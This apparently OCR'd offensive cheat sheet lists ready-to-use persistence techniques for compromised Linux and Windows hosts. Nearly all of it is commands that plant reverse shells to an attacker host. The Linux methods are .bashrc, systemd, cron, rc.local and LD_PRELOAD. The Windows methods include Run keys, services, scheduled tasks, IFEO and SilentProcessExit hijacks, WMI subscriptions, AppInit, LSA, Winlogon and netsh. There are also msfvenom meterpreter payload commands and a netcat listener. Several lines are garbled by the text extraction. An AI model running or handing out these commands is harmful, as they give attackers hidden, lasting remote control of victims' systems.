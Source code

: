 # WEB

## XSS



## REVERSE
* rlwrap -cAr nc -lnvp PORT

# PERSISTANT

## LINUX

* Autorun

    bash$> echo "nc attacker.tk 8888 ‐e /bin/bash 2>/dev/null &" >>~/.bashrc

* Service

bash#> vim /etc/systemd/system/persistence.service
bash$> vim ~/.config/systemd/user/persistence.service

[Unit]
Description=persistence
[Service]
ExecStart=/bin/bash ‐c 'bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1'
Restart=always
RestartSec=60
[Install]
WantedBy=default.target

bash#> systemctl enable persistence.service
bash#> systemctl start persistence.service
bash$> systemctl ‐‐user enable persistence.service
bash$> systemctl ‐‐user start persistence.service

* Tasks

bash#> echo "* * * * * bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1" >>/var/spool/cron/root
bash#> echo $'SHELL=/bin/bash\n* * * * * root bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1\n'> /etc/cron.d/pwn

* In MEMORY

msfvenom ‐p linux/x86/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888 ‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999
bash$> inject_linux PID meter32.bin

* LD_PRELOAD

bash#> echo /path/to/meter.so >> /etc/ld.so.preload
bash#> echo export LD_PRELOAD=/path/to/meter.so >> /etc/profile
bash$> echo export LD_PRELOAD=/path/to/meter.so >> ~/.bashrc

* rc.local

bash#> echo "nc attacker.tk 8888 ‐e /bin/bash &" >> /etc/rc.local

## WINDOWS

* Autorun

cmd$> copy meter.exe %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\
cmd$> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\users\username\meter.exe"
cmd#> copy meter.exe C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\
cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\system32\meter.exe"

* Service

cmd#> sc create persistence binPath= "nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888" start= auto
cmd#> sc failure persistence reset= 0 actions=restart/60000/restart/60000/restart/60000
cmd#> sc start persistence

* Tasks

cmd#> at 13:37 \temp\nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888
cmd#> schtasks /create /ru SYSTEM /sc MINUTE /MO 1 /tn persistence /tr "c:\temp\nc.exe ‐e c:\windows\system32\cmd.exe attacker.tk 8888"

* In MEMORY

msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999
cmd$> inject_windows.exe PID meter32.bin

* Debugger

cmd#> copy calc.exe _calc.exe
cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & c:\windows\nc.exe ‐e c:\windows\system32\cmd.exeattacker.tk 8888" /f

* Gflags

cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD/d 512
cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "nc ‐e \windows\system32\cmd.exe attacker.tk 8888"

* WMI

cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __EventFilterCREATE Name="persistence", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
cmd#> wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="persistence", ExecutablePath="C:\users\admin\meter.exe",CommandLineTemplate="C:\users\admin\meter.exe"
cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name="persistence"", Consumer="CommandLineEventConsumer.Name="persistence""

* AppInit

cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f
cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter64.dll" /f
cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f
cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter32.dll" /f

* Lsass

cmd#> reg add "HKLM\system\currentcontrolset\control\lsa" /v"Notification Packages" /t reg_multi_sz /d "rassfm\0scecli\0meter" /f

* Winlogon

cmd#> reg add "HKLM\software\microsoft\windows nt\currentversion\winlogon" /v UserInit /t reg_sz /d "c:\windows\system32\userinit.exe,c:\windows\meter.exe"

* Netsh

cmd#> c:\windows\syswow64\netsh.exenetsh> add helper c:\windows\meter32.dll
cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\SysWOW64\netsh.exe"

* Office

cmd$> reg add "HKCU\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d C:\users\username\meter.dll

# OS

# UTILS

# LINKS

